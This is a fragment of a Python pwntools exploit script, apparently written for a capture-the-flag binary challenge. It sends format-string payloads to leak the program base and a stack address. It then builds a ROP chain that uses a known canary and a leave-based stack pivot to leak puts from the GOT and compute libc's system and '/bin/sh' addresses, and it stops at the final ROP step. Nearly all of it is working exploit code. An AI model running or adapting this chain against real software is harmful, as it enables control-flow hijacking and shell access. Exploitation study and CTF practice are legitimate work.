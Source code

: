 ```python
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
leak_func_main = int(p.recv(14), 16)
bin_base = leak_func_main - bin_func_main
bin_puts_plt = bin_base + bin_puts_plt
bin_puts_got = bin_base + bin_puts_got
bin_pop_rdi_ret = bin_base + bin_pop_rdi_ret
bin_func_main = bin_base + bin_func_main
bin_leave = bin_base + bin_leave

logger('bin_base', hex(bin_base), 'success')
logger('leak_func_main', hex(bin_func_main), 'success')
logger('bin_puts_plt', hex(bin_puts_plt), 'success')
logger('bin_puts_got', hex(bin_puts_got), 'success')
logger('bin_pop_rdi_ret', hex(bin_pop_rdi_ret), 'success')
logger('bin_leave', hex(bin_leave), 'success')

# leak_grand_rbp
logger('leak_grand_rbp')
payload = b'aaab%16$p'
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
grand_rbp = int(p.recv(14), 16)
logger('grand_rbp', hex(grand_rbp), 'success')


# dbg(gdbscript='b *libc+61')

# leak_libc_base
logger('leak_libc_base')
target_rbp = grand_rbp - 0x20 - 0x70 + (0x10 - 0x8) + 0x8
payload = b'a' * (0x10 - 0x8) + p64(canary) + p64(grand_rbp) + p64(bin_pop_rdi_ret) + \
    p64(bin_puts_got) + p64(bin_puts_plt) + p64(bin_func_main) + \
    b'b' * (0x70 - (0x10 - 0x8) - (0x8 * 6) - 0x8) + \
    p64(canary) + p64(target_rbp) + p64(bin_leave)
p.sendlineafter(b'Your choice:', b'2')
p.sendlineafter(b'input sth', payload)

p.recv()
leak_libc_puts = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leak_libc_puts - libc_puts
libc_system = libc_base + libc_system
libc_str_bin_sh = libc_base + libc_str_bin_sh

logger('libc_base', hex(libc_base), 'success')
logger('leak_libc_puts', hex(leak_libc_puts), 'success')
logger('libc_system', hex(libc_system), 'success')
logger('libc_str_bin_sh', hex(libc_str_bin_sh), 'success')


# leak_grand_rbp2   由于破坏了原来的函数调用关系，需要重新创建一次栈迁移的条件
logger('leak_grand_rbp2')
payload = b'aaab%16$p'
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
grand_rbp = int(p.recv(14), 16)
logger('grand_rbp', hex(grand_rbp), 'success')

# rop
logger('rop')
```